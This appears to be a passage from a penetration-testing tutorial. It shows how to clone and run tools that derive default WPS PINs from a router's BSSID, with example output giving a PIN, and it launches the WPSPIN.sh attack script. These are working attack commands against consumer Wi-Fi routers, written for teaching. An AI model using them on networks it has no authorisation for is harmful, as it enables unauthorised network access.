 To begin, we can use a tool called [Default-wps-pin](https://github.com/eye9poob/Default-wps-pin), and start by cloning it from Github.

```shell
git clone https://github.com/eye9poob/Default-wps-pin

```

Then, to use the tool, we simply employ the following command. We specify our BSSID, then observe as possible PINs are outputted into the terminal.

```shell
python2 /opt/Default-wps-pin/default-wps-pin.py 60:38:E0:D4:A2:5E

derived serial number: R----55185
SSID: Arcor|EasyBox|Vodafone-04D755
WPS pin: 27038895

```

* * *

### Using WPS-PIN to Generate Default PIN

We can also use another script called [WPS-PIN](https://github.com/linkp2p/WPS-PIN) to generate the WPS PIN from the BSSID.

```shell
/opt/WPSPIN.sh

              _       _  _____    _____   _____  _______  _     _
             (_)  _  (_)(_____)  (_____) (_____)(_______)(_)   (_)
             (_) (_) (_)(_)__(_)(_)___   (_)__(_)  (_)   (__)_ (_)
             (_) (_) (_)(_____)   (___)_ (_____)   (_)   (_)(_)(_)
             (_)_(_)_(_)(_)       ____(_)(_)     __(_)__ (_)  (__)
              (__) (__) (_)      (_____) (_)    (_______)(_)   (_)

 www.crack-wifi.com     www.facebook.com/soufian.ckin2u    www.auditoriaswireless.net

               by kcdtv feat. antares_145,  r00tnuLL and 1camaron1
               including computepinC83A35 algorithm by ZaoChunseng

                   DEFAULT PIN GENERATOR & WPS PROTOCOL ATTACK

                         +---------------------------+
                         |     1  -  ENGLISH         |
                         |     2  -  ESPANOL         |
                         |     3  -  FRANCAIS        |
                         +---------------------------+


                                Language : 1

          WARNING :  NO COMPATIBLE WIRELESS INTERFACE IS AVAILABLE
     WPSPIN will be executed in a reduced mode without scanning or attack
             You can reload interface checking with option 2

                                     ¿     ?
                                ?       ?
                               ¿   >X<    ¿
                               -  (O o)  -
                    +---------ooO--(_)--Ooo-------------+
                    |                                   |
                    |    1 -  GENERATE PIN              |
                    |    2 -  RELOAD INTERFACES CHECK   |
                    |    3 -  EXIT WPSPIN               |
                    |                                   |
```